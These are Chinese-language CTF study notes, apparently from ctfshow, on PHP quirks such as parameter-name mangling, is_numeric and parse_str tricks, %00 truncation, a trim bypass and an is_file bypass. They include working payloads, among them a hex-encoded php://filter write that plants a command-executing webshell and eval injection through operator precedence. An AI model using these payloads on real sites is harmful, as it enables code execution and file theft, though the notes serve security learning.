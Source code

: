 ## **字符串解析特性**
![](.topwrite/assets/image_1732956120665.png)
原理：<https://blog.csdn.net/bin789456/article/details/120305682>
利用：<https://blog.csdn.net/qq_45521281/article/details/105871192>
如果一个IDS/IPS或WAF中有一条规则是当num参数的值是一个非数字的值则拦截。
则禁用?num=a，但用? num=a，?%20num=a效果一样。也可?[num=a。


^
传参特性
```
在php中变量名只有数字字母下划线，被get域者post传入的变量名，如果含有空格、+、[则会被转化为_，
所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.）
但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换。

$_POST['a_sec.b']
需要传a[sec.b=

h_in.t传参h[in.t

a_b直接传参a_b即可
```


^
## **时间相关**
```
$guess = $_GET['input'];
$target = random_int(114,114+date('s')*100000);  //114+获取的当前秒数
if(intval($guess) === intval($target)){
    good
}
```
114+获取当前秒数，必然有当前秒数是0，则就是114，所以一直?input=114等到秒数为0时即可。












^
## **运算符优先级**
and优先级低于=
```
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3); //and优先级低于=。
//所以$v0的值就是$v1的判断，检查变量$v1是否是一个数字值或数字字符串。
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }   
}

要读取一个类信息，类名
var_dump(get_class_vars('ctfshow'));
?v1=1&v2=var_dump(get_class_vars&v3=);

反射获取类信息
echo new ReflectionClass('ctfshow');
?v1=1&v2=echo new ReflectionClass&v3=;
```

^
## **is_numeric函数特性**
```
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}

php5下is_numeric可识别16进制，如0x2e，然后调用hex2bin转成字符串写入木马，
但题目环境没配好，是php7的is_numeric不能识别16进制，必须全数字，所以要另换方法。

当用伪协议写入时，将如下木马先base64编码后转成16进制就是全是数字的字符串！
$a='<?=`cat *`;';
$b=base64_encode($a);//$a=PD89YGNhdCAqYDs=
$c=bin2hex('PD89YGNhdCAqYDs');
得到5044383959474e6864434171594473

?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
POST:v1=hex2bin
```




^
## **parse_str()函数**
parse_str() 函数把查询字符串解析到变量中。
如果未设置第二个参数的array参数，由该函数设置的变量将覆盖其他地方定义已存在的同名变量。
```
// 假设我们有一个 URL 编码的字符串
$str = "name=Kimi&age=30";

// 使用 parse_str() 解析字符串
parse_str($str);

// 输出解析后的变量
echo $name; // 输出 Kimi
echo $age;  // 输出 30

parse_str($str,$arr);
$arr['name']
$arr['age']
```
```
$v1 = $_POST['v1'];
$v3 = $_GET['v3'];
   parse_str($v1,$v2);
   if($v2['flag']==md5($v3)){
       echo $flag;
   }

Payload：
GET：v3=0
POST: v1=flag=cfcd208495d565ef66e7dff9f98764da
```




^
## **%00截断和ereg()函数**
ereg()正则匹配函数
```
if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {  //原意c传递必须全字母，但是可以%00截断后，后非字母
    die('error');

}

if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?c=A%00778
正则匹配A满足
反转877A
数值877 即16进制36d
```



^
## **trim()函数绕过**
```
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36'){
    if($num=='36'){
        echo $flag;}

trim() 去除普通空格、制表符(%09)、换行符(%0a)、回车符(%0d)、空字节符(%00)、垂直制表符（%0b），但不去除换页符%0c
?num=%0c36
```
 

^
## **is_file()函数绕过**
```
if(! is_file($file)){
    highlight_file($file);
}
```
要让其认为$file不是一个文件。
```
1、伪协议
2、利用长度溢出认为不是文件
?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

```